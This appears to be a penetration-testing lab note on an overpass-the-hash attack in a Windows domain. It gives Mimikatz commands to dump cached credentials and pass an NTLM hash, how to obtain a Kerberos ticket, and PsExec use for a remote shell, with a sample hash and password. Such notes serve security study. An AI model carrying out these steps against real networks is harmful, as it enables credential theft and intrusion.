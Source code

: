 ```yaml
---
IP_KALI: 192.168.45.155
USER: jen
DOMAIN: corp.com
NTLM_HASH: 369def79d8372408bf6e93364cc93075
HOSTNAME: web04
---
```

Nexus123!

Requirements:
- An authenticated RDP session on a machine on the network
- The target users cached hash must be present on the machine we have access to

On mimikatz:
```
privilege::debug
```
```
sekurlsa::logonpasswords
```

Run sekurlsa::pth to obtain the TGT from the hash:
- sekurlsa::pth /user:<span id="USER"/>jen<span type="end"/> /domain:<span id="DOMAIN"/>corp.com<span type="end"/> /ntlm:<span id="NTLM_HASH"/>369def79d8372408bf6e93364cc93075<span type="end"/> /run:powershell
- This will open up a new PS session that allows us to execute commands as USER

On new terminal:
- Generate TGT by authenticating to a network share:
```
net use \\files04
```
- List cached kerberos tickets:
```
klist
```
- The TGT has kerbtgt as the server while the TGS has cifs as the server

We can now use PsExec (which does not accept NTLM hashes) to perform remote code execution on a machine of our choosing:
- Change directorys to wher psexec is located
```
cd C:\tools\SysinternalsSuite\
```
```
.\PsExec.exe \\web04 cmd
```
- Check Identity
```
whoami
```
```
hostname
```
